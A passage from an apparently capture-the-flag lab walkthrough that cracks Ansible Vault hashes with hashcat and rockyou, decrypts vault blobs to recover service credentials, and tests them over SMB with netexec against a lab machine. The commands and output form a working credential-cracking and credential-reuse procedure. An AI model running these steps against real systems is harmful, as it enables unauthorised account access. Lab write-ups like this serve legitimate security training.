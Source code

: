 `hashcat` can handle these:



    $ hashcat vault_hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:

    16900 | Ansible Vault | Password Manager
    ...[snip]...
    $ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
    $ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
    $ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*
    ...[snip]...



They all have the same password, `!@#$%^&*`, which makes sense since
they are encrypted in the same ansible file.

#### Decrypt

`pipx install ansible-core` installs a bunch of ansible tools, including
`ansible-vault`, which can decrypt the blobs with passwords:



    oxdf@hacky$ cat ldap_admin_password_vault | ansible-vault decrypt
    Vault password: 
    Decryption successful
    DevT3st@123
    oxdf@hacky$ cat pwm_admin_login_vault | ansible-vault decrypt
    Vault password: 
    Decryption successful
    svc_pwm
    oxdf@hacky$ 
    oxdf@hacky$ cat pwm_admin_password_vault | ansible-vault decrypt
    Vault password: 
    Decryption successful
    pWm_@dm!N_!23



### Machine Access \[Fail\]

I'll try this password combination with `netexec`. On SMB, it seems to
work, but then it can't access any shares:



    oxdf@hacky$ netexec smb authority.htb -u svc_pwm -p 'pWm_@dm!N_!23'
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_pwm:pWm_@dm!N_!23 
    oxdf@hacky$ netexec smb authority.htb -u svc_pwm -p 'pWm_@dm!N_!23' --shares
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_pwm:pWm_@dm!N_!23 
    SMB         10.10.11.222    445    AUTHORITY        [-] Error enumerating shares: STATUS_ACCESS_DENIED
